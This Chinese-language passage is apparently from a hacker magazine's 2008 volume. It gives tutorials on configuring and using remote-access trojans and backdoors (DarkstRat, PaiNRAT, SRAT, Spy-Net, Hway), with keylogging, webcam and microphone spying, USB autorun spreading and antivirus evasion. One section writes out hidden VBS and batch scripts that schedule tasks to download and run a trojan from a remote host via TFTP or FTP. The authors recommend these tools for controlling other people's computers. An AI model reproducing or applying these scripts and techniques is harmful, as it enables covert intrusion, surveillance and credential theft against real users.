点击“超级终端”，然后点击窗口中的“设置字体”和“背景颜色”进行相应的设置，这样就不会在传统的黑底白字窗口下进行操作了。设置完成后，点击“开启Telnet”按钮，就可以激活终端服务命令，这样就可以在窗口中执行各种终端命令，拓展木马的控制能力了。打开“文件管理”，点击窗口中的“获取磁盘”命令，就可以获取远程电脑的磁盘信息，然后选择想要查看的目录或文件进行管理操作了，也可以直接在“路径”栏中输入想要查看的路径或直接进入到想要查看的目录信息中。在文件管理窗口中通过右键菜单中的命令，可以执行上传、下载、打开、重命名等操作，尤其是可以一次性将多个文件添加到下载列表中执行下载任务，如图6。无论是文件上传还是下载，都可以在“传输状态”中进行查看，在传输列表中对传输的文件进行暂停、删除、上移、下移等操作。


打开“屏幕监视”，就可以对远程桌面进行查看了，首先根据自己的实际情况，在“颜色”列表中选择查看远程桌面的颜色，颜色越高则查看效果就越好。点击“抓取”按钮，就可以对远程桌面进行抓拍操作了。由于木马默认采取的是单张抓取，因此要连续抓屏的话需要选择“自动抓取”选项，如图7。如果选择了“控制鼠标”，就可以直接通过本地鼠标进行远程控制操作了，不过我在实际的操作中感觉该功能还不是太完善。大家有没有感觉到由于控制窗口太靠下，因此进行查看和操作起来都非常不方便，我们点击“全屏”按钮就可以查看到一个完整的桌面了，并且传输的速度也是非常快的，如图8。


点击“视频监视”项，然后点击“获取摄像头”按钮就会先检测远程系统中是否安装有摄像头，如果有的话就可以在列表中进行设备的选择，选中“自动捕获”按钮就可以捕捉远程的图像信息了。接下来我们点击“发送消息”，在这里可以设置向远程计算机发送的错误消息，首先选择需要提示的图标和按钮风格，然后在“消息标题”和“信息”输入框中分别输入提示窗口的标题和内容，例如“系统错误，需要立即重新启动”等，设置完成后点击“发送”按钮即可。另外木马还提供了恶作剧功能，其中包括了鼠标抖动、锁定鼠标、颠倒鼠标按键、开启关闭光驱、隐藏桌面图标、禁用开始按钮、隐藏任务栏等，我们可以调整状态栏中的选项，然后点击“发送”按钮就可以实现这些恶作剧功能了。

#### 三、小结

到此为止，关于DarkstRat木马的使用介绍得就差不多了，我们可以看到DarkstRat木马除了基本的功能外，在很多功能上都加入了自己的设计理念，并且在控制方面表现得更加方便易用，另外程序在突破杀毒软件拦截上也非常出色，没有采用SSDT恢复的方式就可以突破主动防御。总的来说DarkstRat木马还是非常优秀的，非常值得广大木马爱好者进行使用。（本文所涉及到的DarkstRat2008、Exe_DLL导出器，已经收录到光盘中）

### 全手动打造 “寄生虫” 后门

swan

今天给大家讲解一下新的后门，自从看了X档案真是爱不释手，每本杂志都进行了反复研究，发散思维后得一后门，不敢独享！众所周知，一个下载者在面世不久肯定就会被杀毒软件所查杀，那有没有可以寄生在电脑中，任何杀毒软件都无法检测到的下载者呢？在思考了好久，研究了N本的黑客X档案后，我准备结合最近学到的知识全手工打造这样一个后门！当我们习惯了SHIFT后门带给我们方便的同时也应该去系统中寻找更加隐蔽的后门，我的这个超级后门使用一句话概括起来就是：schedule服务+手工制作下载者过程+自解压。

schedule服务的描述是使用户能在计算机上配置和制定自动任务，我们可以在系统中制造自动任务定时循环下载木马，至于如何实现下载那就是“条条大路通罗马”了，使用TFTP、FTP、HTTP等方式都可以。我来简单介绍一下AT命令的一些常用参数：

- time  指定运行命令的时间。
- /interactive  允许作业与在作业运行时登录用户的桌面进行交互。
- /every:date[,...]  在每个星期或月的指定日期（例如每个星期四或每月的第三天）运行命令，将date指定为星期的一天或多天或月的一天或多天（使用1到31的数字）。使用逗号分隔多个日期项。如果省略了date，将假定为该月的当前日期。

使用AT命令可以让远程或者本地计算机在任何指定时间循环下载各种程序，这也就为我们的下载者提供了“定时和循环”下载的功能。接下来就是全力打造下载者了，我们就以TFTP和FTP为例吧，使用TFTP的命令如下：

```text
@TFTP -i swan7110.3322.org get muma.exe c:\windows\muma.exe
@start muma.exe
```

其中swan7110.3322.org是我的动态域名，如果使用FTP的话，则命令如下：

```text
@echo open 你的动态域名 > 1.TXT
@echo 用户名 >>1.TXT
@echo 密码 >>1.TXT
@echo get 木马.exe 保存的地址X: >>1.TXT
@echo bye >> 1.TXT
@ftp -s:1.TXT
@del 1.TXT
@ X:\木马.exe
```

我来解释一下上边的命令：“echo+ 内容 >>1.TXT” 是把内容写到这个文本文件中，并且不覆盖原有内容，“>” 为覆盖，“>>” 当然就是不覆盖了。“ftp -s:1.TXT” 就是将1.TXT中的内容作为参数分别传输给FTP来执行，“del 1.TXT” 就是删除文本文件，“X:\木马.exe” 就是运行木马。都准备好了就可以开工了，先来看我的思路，如下：1.VBS → 1.BAT → 2.VBS → 2.bat（前者运行后者）。

1. VBS的内容如下：

```text
set ws=wscript.createobject("wscript.shell")
ws.run "1.bat",0
wscript.sleep 20000
```

意思就是隐藏运行1.bat。
1.bat的内容如下：

```text
@echo off
@net start schedule
@ping 127.0.0.1
@at 18:03 /interactive 2.vbs
```

“net start schedule” 是防止对方的schedule服务没有启动而手工启动，“ping 127.0.0.1” 是用来延迟时间的，“at 18:03 /interactive 2.vbs” 的意思就是每天18:03分时运行2.vbs脚本。至于2.vbs脚本则和1.vbs脚本一样，又是一个隐藏运行的脚本，不过它运行的是2.bat。

2. bat的内容如下：

```text
@echo off
@del d:\muma.exe
@tftp -i 100.100.100.1 get swan.exe d:\muma.exe
@start d:\muma.exe
```

2.bat其实就是一个TFTP下载命令，最后使用winrar进行压缩就可以了。在批处理文件中我们还可以添加关闭防火墙、弹出网页、镜像劫持、结束进程、开机下载木马，甚至是其它恶意的命令，文章写到这儿就结束了，如果本文有什么纰漏之处还请大家到论坛一起讨论！

（本文所涉及到的startftp、tftpd32、希网动态域名更新器已收录到光盘中）

### 青出于蓝而胜于蓝的PaiNRAT

痛并快乐着

以前我一直认为国产的灰鸽子就是木马的集大成者，可是最近从网上发现了一款名为PaiNRAT的木马，在试用之后却让我彻彻底底的改变了自己的看法，因为PaiNRAT无论是从哪个方面都要强过灰鸽子，因此今天我们就一起来感受这个“青出于蓝而胜于蓝”的PaiNRAT。

PaiNRAT木马的配置和其它木马的配置有所差别，因此小菜们一定要看仔细。首先在“创建新的配置文件”中输入一个配置文件的名称，然后点击右边的“创建”按钮就会在左侧的“配置目录”中出现这个配置文件了，双击“配置目录”中的这个文件，

#### 一、配置服务端程序

运行PaiNRAT的客户端程序，点击窗口最上方的“建立服务端”，于是这样就激活了该木马的配置选项内容，接下来就可以进行配置操作了（图1）。

在“基本设置”中主要用来设置服务端的上线信息、连接IP地址、连接端口等内容；“启动”选项用于服务端启动项的设置，PaiNRAT除了采用Policies和ActiveX进行启动外，还可以修改注册表内容来利用Explorer和UserInit来启动；“安装方式”选项用于设置服务端的安装名称和安装目录，其中安装目录使用相对路径代替，如果大家不熟悉相对路径的写法，可以点击后面的帮助按钮进行查看，另外我们还可以选中“启用脱机键盘记录”选项；“捆绑文件”选项就是将服务端文件和其它的文件进行捆绑，用于服务端的伪装隐藏；“隐藏”选项用于服务端更好的保护，既可以设定服务端文件的日期，又可以设置服务端文件的隐藏文件，另外还可以破坏系统的安全模式和系统还原功能；“反调试”选项也是为了更好的保护服务端，它可以在常见的虚拟机、影子系统和沙盘系统时不运行（图2）；“绕过防火墙”选项主要是通过线程插入来突破网络防火墙的，该木马默认是插入到系统的浏览器进程中。最后点击“生成服务端”，就可以生成相应的服务端程序了。


图1


图2

#### 二、服务端程序控制

将生成的服务端程序上传到局域网的另一台电脑中运行，很快在客户端的“连接”列表就有一台远程计算机连接成功了，列表中鲜艳的五星红旗证明这是一台位于中国的计算机。选中该台主机，点击鼠标右键，选择其中的“连接”命令，或者是直接双击列表中的这台计算机，在弹出的控制窗口中就可以进行操作了。

##### 1. 常规控制命令介绍

从弹出的控制窗口中可以看到，PaiNRAT将控制命令都集中在了窗口左侧，而窗口右侧就是控制操作窗口。PaiNRAT的控制命令非常丰富，我们就选择其中一些常见的以及有特色的控制命令来进行讲解了。首先点击命令列表中的“文件管理”（File Manager），然后在窗口右侧中点击“驱动器列表”按钮，木马就会自动获取远程计算机的磁盘列表信息。从列表中选择想要查看的磁盘，就可以在窗口中显示出该磁盘的文件和文件夹了。我们通过右键中的“快速访问”命令，可以方便的进入Windows、System32等目录中。另外，通过右键菜单中的命令还可以执行文件传输、文件打开、文件访问等操作（图3）。


图3

文件传输的整个过程都可以在“文件传输”中看到，传输中的文件可以进行暂停、删除、上移、下移等操作。除了常见的文件管理外，通过文件搜索功能（Search Files）还可以进行特定文件的搜索。比如设置好需要搜索的目录以及文件名，点击“开始搜索”按钮就可以进行搜索操作了，搜索完毕后我们就可以进行简单的文件管理操作了（图4），如果基本的搜索功能不行的话，我们还可以启动高级搜索功能。


图4

点击列表中的“窗口管理”（Window Manager）命令，首先通过鼠标右键中的“刷新”命令获得窗口列表，再通过鼠标右键中的命令可以执行隐形、关闭、显示等控制操作。其中的“失效”命令可以让该窗口无法正常使用，而“进程”命令则可以对指定的窗口所属的进程进行管理，其下的“暂停”命令可以使这个窗口失去响应（图5）。

点击列表中的“注册表功能”（Registry Editor），然后在模拟的注册表编辑器窗口的左侧选择需要进行查看的注册表主键，再依次选择需要查看的详细信息，通过双击注册表信息的名称可以进行更名，当然也可以通过右键菜单中的命令对其进行操作。除此以外，PaiNRAT木马还提供了一个特殊的功能——注册表搜索，这个功能我还是在木马里第一次见到。同样设置好需要搜索的主键以及内容，然后选择需要进行搜索的范围，最后点击“开始”按钮就可以了（图6）。


## 2008 合订本下卷

## 牧马记


点击列表中的“进程管理”（Process Manager），通过右键中的“刷新”命令来获得进程列表，这样就可以查看到正在使用的系统进程信息了。PaiNRAT 木马将隐藏的进程进行了特别的标注，从图7中我们就可以清楚地看到一个隐藏的IE进程。通过右键中的命令不仅可以调整进程的优先级，还可以结束或暂停某个进程。其中的“模块”命令可以查看到指定进程中的模块信息。


“启动管理”（Startup Manager）也是一个不常见的功能，在其中可以看到注册表以及系统启动目录中的启动项，通过右键中的命令可以进行删除等操作。另外还可以增加新的启动项目，我们只需要设置添加的位置以及项目名称和启动命令，点击“添加”按钮后就可以增加新的启动项了（图8）。

通过列表中的“设备管理”（Device Manager）可以查看管理远程系统中的硬件信息，而“剪贴板管理”（Clipboard Manager）命令不仅可以查看到远程剪贴板中的信息，还可以得知该剪贴板信息是来自于哪个文件。最后来看一下“服务管理”（Service Manager）命令，还是先通过鼠标右键中的“刷新”命令，来获取远程计算机中的服务信息，然后通过右键中的命令就可以进行启动、停止、删除等操作了。另外，如果我们点击新建服务，就会在窗口的下方出现一个新建服务区域，输入服务的名称、服务说明、可执行文件等信息，然后点击“新建服务”按钮就可以创建一个全新的服务了（图9）。


##### 2. 其它控制命令介绍

上面只是对一些常见的控制功能进行了介绍，其实PaiNRAT 木马还有很多别的控制功能，我们接着进行介绍。点击功能列表中的“屏幕捕获”（Screen Capture）功能，就可以看到远程桌面的当前情况了。默认状态下木马采用的是单张抓取，如果想连续抓取的话可以选择“自动”选项。如果大家感觉默认的控制界面太小的话，可以点击“全屏”按钮在弹出的窗口中进行控制查看。另外通过“远程点击”我们还可以直接通过鼠标对远程桌面进行控制。不过我在测试的过程中发现，该功能还非常不完善，经常会出现假死的状况。

通过“网络摄像头捕获”命令可以获取远程电脑的摄像头视频信息，点击“摄像头”按钮就可以检测远程系统中的视频设备，如果存在的话就可以在列表中进行选择，然后选中“捕获”按钮就可以看到通过设备捕捉的图像了。

如果我们在前面配置服务端的时候选择了键盘记录功能的话，那么现在就可以通过“键盘记录”功能进行查看了。点击该功能后，就可以在窗口中看到木马所记录下的内容，其中包括输入文本的名称、输入时间以及内容等。另外还可以在窗口下方输入需要高亮显示的信息，这样方便于对重要消息的分析查找，不过这些只支持英文信息的显示（图10）。

相信大家现在都非常清楚，目前非常流行利用移动设备来进行病毒的传播，PaiNRAT 木马也有一个类似的功能——USB设备（USB Drives）。点击窗口中的“开始USB监测”按钮，就可以检测远程主机的移动设备信息了。如果需要将指定的文件复制到移动设备中，只需要在“自动复制文件到 USB”中输入要复制的文件路径，然后选择“自动复制文件到 USB”和“创建的 Autorun.inf”选项即可。这样当移动设备插入其它的电脑系统后，复制到其中的文件就会立即自动运行了（图 11）。


PaiNRAT 木马除了拥有密码记录功能外，还可以进行密码的嗅探操作，包括对 IE 浏览器、MSN、Firefox 等常见软件的密码进行嗅探。点击功能列表中的“超级终端”命令，就可以成功激活远程系统的命令提示符功能，在窗口的命令行中输入命令，就可以在窗口中看到终端反馈的结果信息了（图 13）。“脚本管理”功能可以让用户自己编写批处理代码或 VBS 脚本代码，编写完毕后可以先在本地系统中执行，然后再在远程系统中进行创建和执行。另外“显示管理”功能还可以对远程显示器进行查看管理，通过“当前分辨率”和“默认显卡”按钮，可以查看到显示器的分辨率以及所使用的显卡。通过分辨率列表中的选项，我们就可以对显示器的分辨率和刷新率进行更改。


通过上边这些控制命令的介绍，大家是不是发觉 PaiNRAT 木马越来越有意思了，其实更多新奇的命令控制还在后面呢！“用户帐号”（User Accounts）命令可以对系统中的用户帐号进行管理，我们可以分别查看到远程系统的用户组以及每个用户组中所对应的用户帐号。通过右键中的“清除”命令可以删除你不喜欢的用户帐号。对于该操作，大家请不要随便进行删除，因为一旦删除错误的话可能会造成用户无法登录。


使用过灰鸽子的朋友都知道，木马可以将本地系统设置为网络服务器，比如 Web 服务器或 Socks5 服务器，PaiNRAT 木马也包含了这样的功能，只不过其架设的是 Socks4 服务器而已。比如我们要设置 Web 服务器的话，首先需要在“服务器目录”下拉菜单中设置要作为服务器的磁盘目录，接着设置服务器使用的IP地址和端口，然后点击“启动Web服务器”按钮。我们还可以执行需要文件的HTTP和FTP的下载，以及通过FTP协议将文件上传到指定的服务器。另外PaiNRAT木马还可以进行端口扫描，设置好需要扫描的IP地址和端口范围，点击“开始扫描”按钮就可以了（图14）。除此之外，PaiNRAT木马还可以对系统的Host文件进行修改。可能有的朋友会认为这个功能没有什么作用，其实我们可以使用它来屏蔽杀毒软件的官方网址，这样就可以造成杀毒软件无法升级病毒库了，这样做有什么作用就不用我再多说了吧（图15）。

“软件管理”功能可以查看已经安装的软件，这样我们可以随时卸载远程系统中的软件，而“网络管理”功能就相当于一个端口查看器，可以了解到远程系统最新的数据传输情况，包括网络协议、IP 地址、连接端口、连接进程等，通过右键中的命令我们可以方便地结束某个正在连接的进程（图 12）。


#### 三、小结

到此为止，PaiNRAT木马中的主要功能就介绍的差不多了。从上面的介绍可以看出，该木马不仅在功能上远远超出了灰鸽子，而且在功能创新方面也是其它木马所不能比的。虽然木马不能截取中文信息，桌面查看功能也有待进一步的改善，但是瑕不掩瑜，PaiNRAT木马仍然是一款非常优秀的木马，因此我强烈推荐大家进行使用。

（文章中涉及到的PaiNRAT木马已经收录在光盘中）


### 教小菜使用后门程序 hway

随着木马程序功能的越来越多，小菜们对于后门程序的关注则越来越少了，但是后门程序的隐蔽性往往都要强过木马程序，不久前我在暗组论坛就发现了一个全新的后门程序hway，测试以后感觉很不错，因此特地介绍给大家使用。

#### 一、Hway 后门简介

Hway后门程序首先会创建一个名为Windows Infrared Port Monitor的服务，我们不能手工停止该服务，除非是卸载掉该服务，接着就会利用进程hostsvc.exe来启动后门程序，并将其插入到svchost.exe进程中。同时Hway具有线程保护的相关功能，从而实现了无启动项和无进程，后门除了基本的控制功能外，还可以对系统发出的数据信息进行嗅探，并且记录下发出的POST数据和FTP密码。另外，Hway后门会将安装日志写到系统system32目录的hwaylogV3.txt文件中，而嗅探日志则会记录在系统system32目录的snifflogV3.log文件中。

#### 二、Hway 后门安装

我们可以把hway.dll复制到任意目录下进行安装，Hway后门最简单的安装方法就是在命令提示符窗口中输入安装命令 `rundll32 hway.dll,install`，如图1。


Hway 默认监听的是133端口，通过设置参数可以选择监听或者不监听，其中参数1表示监听，而0表示不监听。默认的激活码为hway，当然我们也可以自定义这些参数，比如输入命令 `rundll32 hway.dll,install 1 hack`，就表示在安装的时候打开133端口，并且将激活码设置为hack。

安装完成后hway.dll将会被自动删除，这就说明Hway后门已经安装成功了，反之则表示安装失败。另外，Hway后门还有一些隐藏的参数，比如输入命令 `rundll32 hway.dll,install 0/1 activeString http://www.x.com/abc.php`，这样就在安装后门的时候输入了一个网址，后门便会每过半分钟自动读取一次这个网址，而我们可以在网址文件上写入命令来进行控制，比如输入“hway-o”，就可以让远程系统打开133端口，也可以利用“hway-r-http”命令，让服务端自动下载指定的文件等。

#### 三、Hway 后门控制

Hway后门的连接也是非常简单的，使用Telnet或者NC直接连接远程IP地址的133端口即可，比如输入命令 `telnet/nc IP 133`，当出现提示“p”后，我们再输入激活码就可以连接成功了。连接成功后激活后门客户端，就可以查看到相应的控制命令，如图2。当然我们也可以利用Hway后门的客户端client进行连接，输入命令 `client IP -133` 即可。


从上图中我们可以看到，Hway后门包括了查看系统参数、查看系统进程、打开终端服务、文件上传下载等功能。比如输入sysinfo命令，就可以查看到系统的CPU和内存情况，输入pslist命令，就可以查看到系统当前的进程，包括进程的名称和PID。通过pkill id命令，就可以查杀指定的系统进程，如图3。让我感到非常意外的是，Hway后门还有截图功能，输入cap命令就可以对远程屏幕进行截图了，该功能首先会将图片保存到远程系统中，然后再下载到本地的系统目录中，如图4。


文件的上传下载也很简单，通过 download 和 upload 命令就可以进行操作，比如我们要下载 C:\boot.ini 到本地电脑中，就在输入命令 download c:\boot.ini 后，该文件就会被下载到本地。


需要说明的是，只有通过专用客户端连接才可以传送文件，利用 Telnet 或 NC 是不可以的。有时候我们使用 client 连接后，截图或传输文件可能会由于网络延迟而没有回应，这时大家按几下回车就可以了。当我们上传了文件后，可以通过执行 shell 命令进入远程命令提示符窗口，然后通过 dir 命令就可以对文件进行查看了，如图6。


#### 四、小结

通过上面的使用我们可以看出，Hway 后门程序的功能的确有限，但是如果配合木马进行使用，就可以更好的进行控制操作。其实我们也可以利用 Hway 后门来杀鸡，当需要的时候仅仅监听端口，再上传木马程序进行控制操作，这样就可以更好的进行后门的隐藏了。


#### 三、内网域名解析服务

目前国内外的木马程序基本上都是采用反弹连接的方式，但这种方式对于局域网内的用户操作起来就非常困难了，因为使用者必须用到端口映射技术将本地系统中的监听端口映射到拥有外网 IP 地址的主机上才行。这就需要用户拥有一台有外网 IP 地址的电脑，或者是用户获得局域网网关的控制权限，这对于内网中的普通用户来说是非常困难的，因此本文我就给大家介绍一款简单实用的工具——“苹果茶”内网建站程序。

#### 一、申请服务域名

由于苹果茶提供了三种不同的服务，因此它拥有三个不同的官方网站，比如提供的动态域名解析服务，官方网站就是 www.meibu.com，而内网建站相关的域名解析服务，采用的则是 www.wuip.com 和 www.meibu.org 这两个域名。这两个域名提供的内网解析服务的不同之处在于，www.wuip.com 提供的是 VPN 转发这种方式的内网解析服务，而 www.meibu.org 提供的则是 TCP 隧道这种方式的内网解析服务。本文我们就以 VPN 方式的服务为例进行介绍。

苹果茶内网建站网站，点击页面上方的“用户注册”链接，在弹出的网页中点击“我同意”，就会进入注册页面了，注册步骤非常简单，我们只需要填写好那些相应的信息就可以了，如图1。由于这三种域名解析服务的帐号是不能通用的，因此倘若大家需要使用其它的服务，就需要注册其它的帐号才行。另外，下载安装的苹果茶客户端软件也是不能通用的。

服务帐号注册完成后，从网站下载对应的苹果茶客户端程序，因为只有通过它才能完成相关的服务。运行客户端程序后，在弹出的窗口中输入注册的域名和密码，注意这里输入的是域名而不是注册的用户名，成功登录后就可以使用了，如图2。当局域网中的电脑分配到外网的 IP 地址后，就说明自己的电脑和苹果茶服务器已经连接成功。由于我们注册的帐号使用的是 VPN 技术进行服务的，而 VPN 连接把服务器和电脑归为同一局域网，因此服务器就能帮助我们进行数据转发。


现在运行任一款木马的客户端程序，打开监听端口就可以等着服务端自动上线了。不过由于木马的监听端口不同，因此我们最好将木马的监听端口都设置为80，这样就可以更好的保证成功上线了。比如灰鸽子木马默认的监听端口为8000，在运行灰鸽子木马后，点击“系统”菜单下的“系统设置”，在弹出的窗口中将“自动上线端口”中的8000改成80即可，如图3。

不过有的局域网中使用了防火墙，可能会对VPN的连接进行拦截，这样有可能会造成服务端的无法连接。如果遇到上面所说的这些问题，我们又该进行如何的操作呢？我们可以使用TCP隧道这种内网服务方式，同时该服务的帐号注册非常方便，注册完成后苹果茶会提示用户系统已经把本地的80端口转到服务器上的10544端口上，因此要访问这个局域网的80端口，我们必须在浏览器上输入“http://注册名.meibu.org:10544”。


另外，如果我们想使用木马默认的端口进行连接，那么只需在网站上进行登录就可以使用木马端口进行连接。

为了使苹果茶提供这个服务，局域网的防火墙需要开放TCP协议的40544和20544端口，以及UDP协议的9101端口。


由于苹果茶默认提供的是80端口服务，要想让服务端程序成功连接客户端，不仅要让客户端的监听端口设置为80，还需要在配置服务端的时候在地址栏输入上面那个带有端口的地址。

#### 一、配置服务端

首先运行SRAT远程控制的客户端程序，在弹出的窗口中点击工具栏上的“创建客户”按钮，这样就可以进行服务端的配置操作了。在“上线设置”的IP通知端口输入客户端要连接的地址，也就是我们公网的IP地址，建议大家使用动态域名上线方式。总的来说，SRAT支持HTTP访问地址、DNS域名以及静态IP地址等上线方式。设置好上线方式后，我们再设置服务端的连接端口和连接密码，如图1，然后再在“安装选项”里设置服务端启动所用的服务信息等。通过测试我发现SRAT远程控制的服务端也是将服务端的DLL文件伪装成微软的一个网卡的驱动文件，同时还将一个网卡的驱动文件安装到系统中。


#### 二、服务端控制

为了测试方便，我们就直接将服务端传给局域网中的一位同事了，由于木马的数据传输采用了压缩加密方式，因此服务端程序在运行后很快就成功连接了客户端，如图2。在列表中选择上线的远程计算机，点击鼠标右键或单击工具栏的控制按钮，就可以执行远程控制命令了。

SRAT的远程控制功能主要包括了文件管理、屏幕监控、超级终端、键盘记录等。首先我们点击“文件管理”命令，在弹出的“文件管理”窗口中就可以进行各种操作了。SRAT远程控制采用了一种类似于资源管理器的文件查看方式，我们在“当前目录”列表中选择需要查看的磁盘分区，接着就可以查看到该分区的文件夹和文件，然后点击目录列表中的任意一个目录，就可以查看到这个目录中的所有文件，通过右键菜单中的命令就可以执行文件的上传、下载、删除等管理操作了，如图3。当用户进行文件上传或下载时，可以对文件进行断点续传。


通过窗口下方的进度条看到正在进行的文件传输的最新情况，另外，SRAT远程控制还支持文件的断点续传。

点击“屏幕监控”命令后，在弹出的窗口中就可以对远程桌面进行实时查看了。首先勾选上“开始”，这时在窗口正中间就可以看到监控的桌面信息了，由于程序默认是采用8位色进行显示的，因此监控的桌面图像效果特别不好，这时可以通过“色深”列表来选择24位色进行显示，这样图像效果马上就会好很多，如图4。在“显示方式”列表中可以根据显示器的形态来选择平铺或拉伸来进行桌面信息的展现，而选中了“控制”和“显示鼠标轨迹”选项，就可以通过鼠标、键盘来进行控制操作了，并且可以在本地看到鼠标的运行轨迹。可惜的是，SRAT远程控制没有屏幕保存功能，因此截获的图像信息无法进行任何形式的保存。


点击工具栏中的“超级终端”按钮，在弹出的窗口中可以模拟一个命令提示符，点击窗口下方的“开启”命令，这样服务端程序就会调用远程系统的命令提示符，这样我们就可以在这里执行很多网络终端命令以及本地操作命令了。对于广大的木马爱好者来说，键盘记录功能是一个非常重要的控制功能，使用它可以做什么就不用多说了吧。点击“键盘记录”按钮后，在弹出的窗口中点击“查看内容”就可以看到记录信息了，如图5。


虽然很多木马都包括键盘记录功能，但是可以确切记录中文信息的却不多，这点SRAT做的不错，不过SRAT对于键盘的操控还需要加强。

点击“进程管理”命令后，就可以查看远程计算机当前的进程情况了，SRAT的进程管理功能中除了常见的“进程刷新”和“进程终止”外，还包括了“内存转储”、“内存补充”和“符号文件”等几个命令，如图6。不过这几个命令我测试了很久，也没有想出有什么具体作用，看起来还需要大家自己去研究明白。


通过“服务管理”命令，我们就可以对远程系统中的启动服务进行各种管理了，在服务列表里可以看到所有的启动服务，通过右键可以实现启动服务、删除服务、停止服务的操作，比如停止安全类软件或防火墙的启动服务，如图7。


除此之外，程序还可以让用户创建新的服务项，点击“安装服务”命令后在弹出的窗口中按照要求依次输入服务名称、服务描述以及文件的路径等信息，这样一个新的系统服务就创建完成了。同样，“注册表管理”命令就是管理远程注册表的，在列表中选择需要查看的注册表主键，依次选择需要查看的键值，然后在窗口右侧通过右键命令，就可以进行新建、删除或者重命名等操作了。

另外，我们点击工具栏中的“音频监控”命令，就可以通过远程计算机连接的麦克风来截取计算机周围的声音并播放出来。连接成功后，在“音频监控”窗口中设置“采样率”和“声道”选项，选择打开窗口中的“开启”选项，这样就可以听到远程计算机发出的声音了，比如电脑正在播放的 MP3、用户的语音聊天等信息，如图 8。而“摄像头监控”命令可以监控远程系统，通过摄像头捕获视频信息，不过由于朋友的电脑没有安装摄像头，因此就没有进行测试。


由于 SRAT 支持多命令操作，因此在“已开窗口”选项中可以看到已经打开的控制命令窗口，这个功能可是国产木马中很少拥有的。这样用户就可以方便地在多个控制命令窗口中进行切换，当然也可以非常方便地进行指定命令窗口的关闭了。

#### 三、总结

至此，我们已经将 SRAT 远程控制软件的主要功能介绍完毕了，其实通过上面的介绍，相信大家已经感受到了，这个木马程序可以说是平稳中带有自身的特色，比如它不像某些木马那样只保留了木马程序常用的控制功能，还在木马突破控制方面针对现有流行的 360 安全卫士等，因此推荐各位木马爱好者试用感受一下。（本文所涉及到的 SRAT 已收录到光盘中）


国内木马可以说是一公布出来就会被查杀，而对于小菜我来说又不怎么会制作免杀，于是只好找一些好用的国外木马来玩，好友给我推荐了 Spy-Net，它的全称为 Spy-Net Remote Administration Tool（Spy-Net 远程管理工具），原版是一款英文软件，好在国内已经有人将其汉化了，本文我就以 Spy-Net 0.7 汉化版为例来简单介绍一下它的使用。Spy-Net 具有很强的过主动防御能力（过瑞星主动防御如反掌），支持多地址上线、反屏蔽机制，可以说是一款非常优秀的远程控制软件。首先要说明一下，由于 Spy-Net 0.7 汉化版已经公布一段时间了，所以控制端程序会被杀毒软件查杀，玩过木马的朋友应该都知道这点的，木马只要被公布出来也就意味着被查杀，我们要做的就是对生成的服务端程序进行免杀就可以了，这也就是黑客免杀技术流行的原因所在，如果大家想系统地学习黑客免杀技术的话，推荐购买黑客 X 档案最新出版的《黑客免杀入门》一书。

#### 一、配置服务端

运行 Spy-Net 0.7 汉化版，软件的界面如图 1 所示，先点“选项”按钮进行一些连接的基本设置，Spy-Net 最多支持监听 3 个上线端口，想取消监听某个端口，用 0 代替就行了。把“显示口令”选上，这样就可以看到默认的连接密码，把它更改成自己想设置的连接密码，我设置的为 123，如图 2。


实际应用时，大家可以输入自己的公网 IP 地址或者申请的动态域名，设置好后点击右侧绿色的加号按钮就会把 IP/0.0.0.1 加入到上线地址列表中了。安装名称和安装目录都可以自定义，“隐藏设置”里面的选项可以根据自己的需要进行选择。“Stealth”选项下的“资源管理器中隐藏 PID”可以使木马的进程在资源管理器中不显示，而“启动时激活键盘记录”顾名思义就是在木马运行后立即打开键盘记录功能（默认情况下是你使用的时候需要手动开启）。Spy-Net 还可以反 Virtual PC、VMware、VirtualBox 等常用虚拟机，使服务端在虚拟机里不运行，可以起到一定的反调试作用，另外它声称能够穿透一些常用沙箱，但由于条件限制我没有进行这方面的测试。“上线名称”选项填写的是 hackerxfiles 扫描演示，再来看看启动方式，这里要注意一下，它的默认启动方式是不启动，Spy-Net 提供了 ActiveX 和注册表两种启动方式，具体选择哪种就看自己的喜好了，我选择的是通过注册表项来启动，我们还可以对具体的注册表项名称进行自定义，我使用的就是默认的 Windows Firewall 了。另外，为了方便制作免杀，不要选择“使用 UPX 压缩”。现在，该填的都填了，该选的也都选了，最后点右下角的“创建服务端”按钮就可以生成一个服务端程序了，如图 3。


#### 二、控制功能简介

直接在本机运行刚才生成的服务端程序，随着一声清脆的提示音，控制端就会有一个上线提示。点击“新服务端”按钮来生成一个服务端程序，把连接口令和上线端口分别填好，Spy-Net 最多支持 20 个上线地址，在默认的上线地址上点鼠标右键，选择删除，然后输入自己的上线地址，因为是在本机演示，所以我输入的就是 127.0.0.1，如图 1。随后主机上线了，如图 4。Spy-Net 的所有控制功能都在右键菜单里，我们在上线主机上点鼠标右键，就会看到 Spy-Net 的控制功能菜单，如图 5。


选择“文件管理”就会打开“File Manager”窗口，它主要分为“文件管理”、“搜索文件”、“Transfers”三个选项。其中“搜索文件”可以搜索指定文件名的文件，支持通配符的使用；“Transfers”可以对上传下载的文件进行暂停、删除任务等操作。在“文件管理”选项下点鼠标右键，选择“刷新”，就会列出本机的磁盘信息，然后就可以对磁盘上的文件进行各种操作了，如图 6。

“远程终端”提供了一个命令行下的管理窗口，在弹出来的窗口中点“开始”按钮后就可以执行各种系统命令了；选择“进程管理”后点一下“刷新”按钮就会列出当前的进程信息，通过右键菜单中的命令就可以结束指定的进程了；“注册表管理”可以对上线主机的注册表进行新建、删除等操作；“服务管理”可以对远程计算机上的服务进行启动、停止、卸载等操作，还可以新建服务，如图 7。


可以隐藏运行，有两种运行方式；访问指定网页可以直接打开指定网站（暂时不支持隐藏打开）；与肉鸡聊天两块钱的，可以打开一个和肉鸡聊天的窗口并与肉鸡进行文字聊天；“上传插件”可以通过插件来扩展木马的功能；“服务端设置”可以对已经上线的主机进行断开连接、卸载、重新启动服务、重命名等操作；“安装信息”会显示服务端的配置信息，包括上线地址、上线端口、CPU 型号、内存大小等信息。Spy-Net 基本的功能就介绍到这里了，还有一些别的什么功能大家就自己慢慢感受吧。

#### 三、轻松过瑞星主动防御

